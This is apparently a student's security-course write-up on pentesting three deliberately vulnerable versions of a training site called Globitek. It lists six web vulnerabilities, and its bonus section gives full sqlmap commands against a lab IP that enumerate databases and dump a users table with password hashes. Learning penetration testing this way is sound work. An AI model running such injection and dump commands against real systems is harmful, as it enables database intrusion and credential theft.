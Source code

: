 # Project 8 - Pentesting Live Targets

Time spent: **X** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection

![](gif/SQLI.gif)

Vulnerability #2: Session Hijacking/Fixation

![](gif/session_hijacking_fixation.gif)

## Green

Vulnerability #1: Username Enumeration

![](gif/username_enumeration.gif)

Vulnerability #2: XSS

![](gif/XSS.gif)

## Red

Vulnerability #1: IDOR

![](gif/IDOR.gif)


Vulnerability #2: CSRF

![](gif/CSRF.gif)

## Notes

User name Enumeration:
It took me a long while to find the failed/failure change of class in the DOM.  I was looking for a message of sorts instead of such a subtle change.  I also wasn't sure which form I was supposed to look at.

IDOR:
That one was a bit more straight forward once I got into the swing of things, I was pretty sure that it had to do with user ids.

SQLI:
I tried all the forms to no avail, although sometimes I would get a blank page with a bad request notification giving me a false positive on the blue and green site.  I figured it was a bug since I couldn't reliably reproduce the error.

![](png/error.png)

XSS:
That one was straight forward, it felt intuitive that the best place to inject was in the contact form.  Although I did encounter the error from above again.  It seems that when quickly and consecutively doing the same action on the 3 different sites, the third request will fail.

CSRF:
2 vulnerability left and 2 sites simplifies the task quite a bit.


Session Hijacking/Fixation:
Last vulnerability and only one site left.  Really straight forward instructions and easy to implement.


## Bonus Objective 1:

Using sqlmap with the following query I got a list of all the databases:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --dbs --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5
```
available databases [7]:
* globitek_blue
* globitek_green
* globitek_red
* information_schema
* mysql
* performance_schema
* sys

I then used the following to get a listing of all the tables in globitek_blue:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue --tables
```
Database: globitek_blue
[8 tables]

| Tables                  |
|-------------------------|
| countries               |
| failed_logins           |
| feedback                |
| salespeople             |
| salespeople_territories |
| states                  |
| territories             |
| users                   |


I wanted to get a list of all columns in the user table with:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue -T users --columns
```

Database: globitek_blue
Table: users
[7 columns]

| Column          | Type         |
|-----------------|--------------|
| created_at      | datetime     |
| email           | varchar(255) |
| first_name      | varchar(255) |
| hashed_password | varchar(255) |
| id              | int(11)      |
| last_name       | varchar(255) |
| username        | varchar(255) |


Finally dumped user information with:

```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue -T users --dump
```

Database: globitek_blue
Table: users
[4 entries]

| id | email               | username  | last_name | created_at          | first_name | hashed_password                                              |
|----|---------------------|-----------|-----------|---------------------|-----------|--------------------------------------------------------------|
| 1  | test@test.com       | jmonroe99 | Munroe    | NULL                | Jim        | $2y$11$Co5fHvH5Lgk2Zu0iHR46BO6fnqQt1pUljPbZOhk7bTU6hQFhjBJG. |
| 2  | lbt2000@nowhere.com | lbtables  | Tables    | 2016-06-03 19:33:54 | Bobby      | $2y$10$I.Jwfc8R3xaFwlAlPn5U3OLAQXrE0c2fakN8rR4j2TW0gRVMd6U6a |
| 3  | person@nowhere.com  | pperson   | Person    | 2017-01-01 02:50:26 | Pat        | $2y$11$FHZQn1eWZ3mbn11evb3CSeM20LCsJZI8yP9wS/UsOI6VWnx.7mKDa |
| 4  | auser@test.com      | auser     | test      | 2018-03-30 04:19:48 | lets       | $2y$11$jHNjgSVYcC0QY.fn.0UhiOrjW./lYgHkvWhxjV6.Vi2tUBk23lAwS |



